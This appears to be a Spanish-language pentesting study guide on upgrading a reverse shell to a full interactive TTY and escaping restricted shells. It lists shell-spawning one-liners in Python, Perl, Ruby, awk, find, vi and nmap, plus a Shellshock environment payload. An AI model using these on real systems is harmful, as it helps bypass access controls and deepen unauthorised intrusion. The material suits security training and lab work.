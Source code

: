 # 🖥️ Tratamiento de la TTY + Restricted Shell

---

## 📋 Índice

1. [¿Qué es la TTY?](#qué-es-la-tty)
2. [¿Por qué se hace el tratamiento de la TTY?](#por-qué-se-hace-el-tratamiento-de-la-tty)
3. [Formas de tratar la TTY](#formas-de-tratar-la-tty)
    - [Método 1️⃣: `script /dev/null -c bash`](#método-1️⃣-script-devnull--c-bash)
    - [Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.](#método-2️⃣-python-perl-ruby-lua-vi-nmap-etc)
4. [¿Qué es una Restricted Shell?](#qué-es-una-restricted-shell)
5. [Cómo escapar de una Restricted Shell](#cómo-escapar-de-una-restricted-shell)
6. [Resumen](#resumen)

---

## ❓ ¿Qué es la TTY?

Cuando logramos obtener una **reverse shell**, recibimos una **terminal mínima o limitada**.  
Esta terminal básica no tiene todas las capacidades de una terminal interactiva real (TTY).

👉 La **TTY (Teletype Terminal)** es la interfaz de entrada/salida entre el sistema y el usuario.

Al recibir una reverse shell, normalmente obtenemos una **pseudo-terminal** sin TTY completa.  
Por eso es necesario "tratarla" para convertirla en una shell más funcional.

---

## ❓ ¿Por qué se hace el tratamiento de la TTY?

El objetivo es lograr una **TTY interactiva**, es decir, convertir una shell limitada en una shell completa que nos permita:

- ✅ Usar comandos avanzados (`su`, `nano`, `top`, etc.)
- ✅ Manejar atajos de teclado (`Ctrl+C`, `Ctrl+Z`, `Ctrl+D`)
- ✅ Mejorar la estabilidad y experiencia de la shell
- ✅ Tener autocompletado, edición de línea, historial de comandos, etc.

---

## 🔧 Formas de tratar la TTY

---

### Método 1️⃣: `script /dev/null -c bash`

Este método funciona en sistemas donde está disponible el comando `script`.

```bash
script /dev/null -c bash
```
Luego:

```
# Suspender la shell temporalmente
Ctrl + Z

# Ajustar la terminal actual
stty raw -echo; fg

# Resetear la terminal
reset xterm

# Exportar variables para mejorar compatibilidad
export SHELL=bash
export TERM=xterm
```
Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.
Si script no funciona, puedes intentar cualquiera de estos métodos alternativos:
```
# Python (muy común)
python -c 'import pty; pty.spawn("/bin/bash")'

# Python 3
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash interactivo
echo os.system('/bin/bash')
/bin/sh -i

# Otro uso de script
script -qc /bin/bash /dev/null

# Perl
perl -e 'exec "/bin/sh";'

# Ruby
ruby -e 'exec "/bin/sh"'

# Lua
lua -e 'os.execute("/bin/sh")'

# IRB (Ruby shell)
irb
exec "/bin/sh"

# Vi (si puedes abrirlo)
vi
# Dentro de vi:
:!bash
# o
:set shell=/bin/bash | :shell

# Nmap (si tienes --interactive)
nmap --interactive
nmap> !sh
```
Restricted Shell y cómo escapar de ella (con ejemplos)
Una restricted shell (shell restringida) es un entorno limitado de línea de comandos que restringe funciones básicas para evitar que el usuario pueda salir del entorno controlado o ejecutar comandos peligrosos.

Por ejemplo, en una restricted shell comúnmente:

No puedes usar cd para cambiar de directorio.

No puedes usar barras / en comandos para evitar ejecutar shells externas.

No puedes redirigir la salida con >, >> o entrada con <.

No puedes modificar variables de entorno.

Estás limitado a ciertos comandos permitidos.

Estas restricciones buscan limitar el control del usuario para proteger el sistema.
Cómo escapar de una restricted shell
1) Invocar otra shell directamente
Si tienes acceso a shells comunes, intenta ejecutar alguna de estas:
```
/bin/bash  
/bin/sh  
/bin/zsh  
/bin/ksh  
```
2) Usar comandos que ejecutan shell internamente
Ejemplos de comandos que pueden invocar una shell dentro de ellos:
```
awk 'BEGIN {system("/bin/sh")}'  
perl -e 'exec "/bin/sh";'  
python -c 'import os; os.system("/bin/sh")'  
```
3) Crear y ejecutar scripts temporales
Si tienes permisos para crear archivos, puedes hacer:
```
echo 'bash' > /tmp/shell.sh  
chmod +x /tmp/shell.sh  
/tmp/shell.sh  
```
4) Explorar variables de entorno y funciones shell
En algunas configuraciones vulnerables:
```
env x='() { :;}; /bin/bash' bash -c "echo escaped"  
```
5) Usar editores para ejecutar comandos
En vim o vi escribe:
```
:! /bin/sh  
```
En nano presiona:
```
Ctrl + R  
Ctrl + X  
```
6) Usar otros comandos con capacidad para ejecutar comandos arbitrarios
Por ejemplo:
```
find . -exec /bin/sh \;  
ruby -e 'exec "/bin/sh"'  
```
Resumen
Las restricted shells bloquean comandos comunes como cd, redirecciones (>, <), ejecución de comandos externos con /, etc.

Para escapar, intenta invocar shells comunes o usar comandos que ejecutan shells internamente.

Usa editores o comandos que permiten ejecutar shells.

Explora vulnerabilidades en variables de entorno.



